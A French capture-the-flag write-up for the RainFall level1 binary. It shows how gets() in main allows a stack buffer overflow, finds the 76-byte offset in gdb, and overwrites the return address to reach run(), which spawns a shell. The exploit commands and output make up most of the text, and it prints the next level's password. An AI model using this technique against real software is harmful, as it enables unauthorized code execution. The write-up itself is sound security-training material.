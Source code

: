 Nous utilisons objdump pour avoir un aperçu du binaire level1 :

```sh
level1@RainFall:~$ objdump ./level1 -d
```

```asm

08048444 <run>:
 8048444:	55                   	push   %ebp
 8048445:	89 e5                	mov    %esp,%ebp
 8048447:	83 ec 18             	sub    $0x18,%esp
 804844a:	a1 c0 97 04 08       	mov    0x80497c0,%eax
 804844f:	89 c2                	mov    %eax,%edx
 8048451:	b8 70 85 04 08       	mov    $0x8048570,%eax
 8048456:	89 54 24 0c          	mov    %edx,0xc(%esp)
 804845a:	c7 44 24 08 13 00 00 	movl   $0x13,0x8(%esp)
 8048461:	00 
 8048462:	c7 44 24 04 01 00 00 	movl   $0x1,0x4(%esp)
 8048469:	00 
 804846a:	89 04 24             	mov    %eax,(%esp)
 804846d:	e8 de fe ff ff       	call   8048350 <fwrite@plt>
 8048472:	c7 04 24 84 85 04 08 	movl   $0x8048584,(%esp)
 8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
 804847e:	c9                   	leave  
 804847f:	c3                   	ret    

08048480 <main>:
 8048480:	55                   	push   %ebp
 8048481:	89 e5                	mov    %esp,%ebp
 8048483:	83 e4 f0             	and    $0xfffffff0,%esp
 8048486:	83 ec 50             	sub    $0x50,%esp
 8048489:	8d 44 24 10          	lea    0x10(%esp),%eax
 804848d:	89 04 24             	mov    %eax,(%esp)
 8048490:	e8 ab fe ff ff       	call   8048340 <gets@plt>
 8048495:	c9                   	leave  
 8048496:	c3                   	ret    
 8048497:	90                   	nop
 8048498:	90                   	nop
 8048499:	90                   	nop
 804849a:	90                   	nop
 804849b:	90                   	nop
 804849c:	90                   	nop
 804849d:	90                   	nop
 804849e:	90                   	nop
 804849f:	90                   	nop
 ```

La fonction **run** est intéressante, il y a un appel à **gets** dans main, qui est vulnérable à une attaque buffer overflow. Nous allons donc essayer de modifier l'adresse de retour pour accéder à la fonction **run** qui appelle **system**. Tout d'abord, nous vérifions si level1 est vulnérable à une attaque par buffer overflow :

```sh
level1@RainFall:~$ checksec --file ./level1 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   ./level1
```

Aucun canary trouvé, donc nous pouvons exploiter la vulnérabilité avec un buffer oveflow. D'abord, nous allons trouver l'offset du buffer, puis créer payload.

```sh
level1@RainFall:~$ python /tmp/pattern.py
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```
Ensuite, nous tentons de modifier l'EIP dans **main** avec l'adresse de la fonction **run**.

```sh
level1@RainFall:~$ gdb -q ./level1
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048483
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
(gdb) b *0x08048496
Breakpoint 2 at 0x8048496
(gdb) r
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048483 in main ()
(gdb) c
Continuing.
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Breakpoint 2, 0x08048496 in main ()
(gdb) info frame
Stack level 0, frame at 0xbffff740:
 eip = 0x8048496 in main; saved eip 0x63413563
 Arglist at 0x41346341, args:
 Locals at 0x41346341, Previous frame's sp is 0xbffff740
 Saved registers:
  eip at 0xbffff73c
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
=> 0x08048496 <+22>:    ret
End of assembler dump.
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
```
Nous avons un segfault à l'adresse ```0x63413563``` et la commande info frame nous donne: **saved eip 0x63413563**
Ainsi, nous savons que eip a été écrasé par cette valeur : ```0x63413563``` Nous allons vérifier la position de cette valeur dans notre pattern en utilisant notre script:

```sh
level1@RainFall:~$ python /tmp/pattern.py > /tmp/pattern
level1@RainFall:~$ python /tmp/pattern.py /tmp/pattern 0x63413563
offset found at: 76
```
On exploit avec le script:
```sh
level1@RainFall:~$ python /tmp/exploit.py 0x08048444 76
crafting payload...
done:
/tmp/payload_level1
level1@RainFall:~$ cat /tmp/payload_level1 - | ./level1

Good... Wait what?
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
Flag!


Nous avons vu que la limite est de 76 octets, nous pouvons également procéder manuellement en identifiant l'adresse de **eip** et en soustrayant l'adresse de début du buffer. Nous savons, d'après le code désassemblé, que 0x50 octets sont réservés, donc le buffer fait 0x50 - 0x10, soit 64 octets.

```sh
level1@RainFall:~$ gdb -q ./level1 
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048483
(gdb) r
Starting program: /home/user/level1/level1 

Breakpoint 1, 0x08048483 in main ()
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   ebp
   0x08048481 <+1>:	mov    ebp,esp
=> 0x08048483 <+3>:	and    esp,0xfffffff0
   0x08048486 <+6>:	sub    esp,0x50
   0x08048489 <+9>:	lea    eax,[esp+0x10]
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.
(gdb) b *0x08048495
Breakpoint 2 at 0x8048495
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 2, 0x08048495 in main ()
(gdb) info frame
Stack level 0, frame at 0xbffff740:
 eip = 0x8048495 in main; saved eip 0xb7e45400
 Arglist at 0xbffff738, args: 
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
(gdb) x/24wx $esp
0xbffff6e0:	0xbffff6f0	0x0000002f	0xbffff73c	0xb7fd0ff4
0xbffff6f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff700:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff710:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff720:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff730:	0x41414141	0x41414141	0x41414141	0xb7e45400
(gdb) p/d 0xbffff73c - 0xbffff6f0
$1 = 76
```
